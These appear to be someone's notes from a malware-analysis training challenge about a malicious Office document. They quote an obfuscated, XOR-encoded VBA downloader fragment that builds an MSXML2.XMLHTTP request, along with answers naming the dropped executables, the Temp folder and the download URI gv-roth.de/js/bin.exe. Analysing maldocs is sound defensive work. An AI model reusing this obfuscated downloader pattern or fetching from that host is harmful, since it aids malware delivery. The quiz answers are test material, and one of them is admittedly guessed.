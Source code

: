 QB-X Notes
```
Tiberious is right - behold XOR 

```
Important Takeways
```
```
## Attacker 4


[[Squid-Game-Notes-Attacker-4]] did an hour and got some environment variables, but none of the answers below; realised I went too deep into source and ran out of time I did not reverse this block sadly:
```vb
Set VPBCRFOQENN = CreateObject(XORI(Hextostring("3F34193F254049193F253A331522"), Hextostring("7267417269")))
GoTo fpvygztoabfyscyqmjxaakqwiwqpjfzgwplzmhryvptavvsitizcoqgammdhoraqpviudbameizhxxkfiw:
fpvygztoabfyscyqmjxaakqwiwqpjfzgwplzmhryvptavvsitizcoqgammdhoraqpviudbameizhxxkfiw:
GoTo fjuvxpaemzuawljcczrjcqncfqtadadckbfxynawdigwsmxxfdtoiyzyriibnsacdbvkbubskrjrvkujkg:
fjuvxpaemzuawljcczrjcqncfqtadadckbfxynawdigwsmxxfdtoiyzyriibnsacdbvkbubskrjrvkujkg:
GoTo atdgxcypqufobazqwfbzsdpphuexwbgmzrvveuqfuissqnqrjbvmoathximeitkzlsazxqlwrbwkegkczc:
atdgxcypqufobazqwfbzsdpphuexwbgmzrvveuqfuissqnqrjbvmoathximeitkzlsazxqlwrbwkegkczc:
    VPBCRFOQENN.Open XORI(Hextostring("00353B"), Hextostring("47706F634E")), FYAMZFQXNVI, False
GoTo 
```

But also I used the functions themselves, which I thought would work

Provide the first decoded string found in this maldoc.; Answer:
```bash
# 3F34193F254049193F253A331522;  7267417269 is the XOR Key
# https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'7267417269'%7D,'Standard',false)&input=M0YzNDE5M0YyNTQwNDkxOTNGMjUzQTMzMTUyMg

MSXML2.XMLHTTP
```
QB-Forensics-Notes:
```
```
Provide the name of the binary being dropped.; Answer:
```bash
# Same as question 1
DYIATHUQLCW.exe
```
QB-Forensics-Notes:
```
```
Provide the folder where the binary is being dropped to.; Answer:
```
# Guessed
Temp
```
QB-Forensics-Notes:
```

```
Provide the name of the second binary.; Answer:
```
bin.exe
```
QB-Forensics-Notes:
```
```
Provide the full URI from which the second binary was downloaded (exclude http/https).; Answer:
```
gv-roth.de/js/bin.exe
```
QB-Forensics-Notes: